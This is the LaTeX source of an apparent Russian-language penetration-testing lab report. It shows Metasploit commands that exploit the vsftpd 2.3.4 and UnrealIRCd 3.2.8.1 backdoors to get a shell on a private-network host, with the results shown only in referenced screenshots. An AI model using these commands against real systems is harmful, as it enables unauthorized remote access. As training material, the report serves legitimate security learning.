 \documentclass[10pt,a4paper]{report}
\begin{document}
\section{Получение консоли с использованием уязвимости в vsftpd}
Для данной уязвимости воспользуемся готовым эксплоитом vsftpd\_234\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	\includegraphics[width=\textwidth]{Img/9}
	\caption{Результат работы vsftpd\_234\_backdoor.}
\end{figure}

Доступ получен, попробуем выполнить любую команду, например, ls.

\subsection{Получение консоли с использованием уязвимости в irc}
Для данной уязвимости воспользуемся готовым эксплоитом unreal\_ircd\_3281\_backdoor.
Настраиваем и запускаем эксплоит
\begin{verbatim}
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.100.8
exploit
\end{verbatim}

\begin{figure}[h!]
	\centering
	\includegraphics[width=\textwidth]{Img/10}
	\caption{Результат работы  unreal\_ircd\_3281\_backdoor.}
\end{figure}
\end{document}
